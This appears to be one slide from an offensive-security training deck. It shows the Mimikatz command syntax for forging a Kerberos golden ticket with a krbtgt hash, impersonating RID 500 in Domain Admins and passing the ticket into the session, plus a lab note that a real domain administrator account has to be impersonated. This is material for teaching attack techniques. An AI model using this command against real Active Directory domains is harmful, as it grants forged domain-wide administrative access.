

# Golden Ticket Syntax
Syntax slightly different
kerberos::golden /user:validuser /domain:domain.fqdn /sid:domainSID /krbtgt:hash /id:500 /groups:512[+others] /ptt

NOTE: Many online guides say you can pick any account
That does not seem to be true any longer based on my lab – unknown reason/change
Find a valid domain administrator to impersonate (Administrator, for example)
302